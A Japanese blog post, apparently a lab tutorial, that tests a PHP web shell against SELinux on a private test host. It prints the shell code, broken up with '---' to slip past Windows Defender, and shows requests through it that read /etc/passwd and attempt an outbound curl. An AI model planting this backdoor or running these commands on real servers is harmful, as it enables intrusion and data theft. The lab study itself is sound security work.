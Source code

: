 ```yaml
---
layout:        post
title:         "SELinuxによるPHPバックドア(WebShell)の<br>OSコマンド実行拒否と例外ルール作成"
date:          2021-10-20
category:      Linux
cover:         /assets/cover1.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


SELinuxが有効化されている環境でバックドアが期待通りに動作するかを検証しました。
また、バックドアが動くように例外ルールをSELinuxに追加する方法も説明します。

SELinux (Security-Enhanced Linux) は、Linux カーネルにおける MAC の実装です。
プロセスがファイルやディレクトリにアクセス (Read/Write/Exec) するとき、まずはユーザとグループに基づいて制御する任意アクセス制御 (DAC; Discretionary Access Control) をチェックし、その後に**強制アクセス制御** (**MAC**; Mandatory Access Control) をチェックします。DACとMACの両方で許可された場合のみ、アクセスが許可されます。
DACルールでアクセス拒否した場合は、MACルールは使用されません。

### SELinux環境下のPHPバックドア

まず、サーバ側にバックドアを設置します。
注意ですが、以下のコマンドを入力するときは内容から `---` を取り除いてください（Windows DefenderによるTrojan検知を防ぐために入れてます）。
~~~bash
cat <<EOS > /var/www/html/backdoor.php
<?---php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
EOS
~~~

httpdが起動していて、FWで80番ポートが開いていることを確認したら、バックドア経由でコマンドを実行させます。
ブラウザでアクセスしても良いですが、今回はPowerShellを使ってcurlでアクセスします。

~~~powershell
PS> (curl http://192.168.56.102/backdoor.php?cmd=pwd).Content
<pre>/var/www/html
</pre>

PS> (curl http://192.168.56.102/backdoor.php?cmd=cat+/etc/passwd).Content
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
...(省略)...

PS> (curl http://192.168.56.102/backdoor.php?cmd=curl+example.com).Content
<pre></pre>
~~~
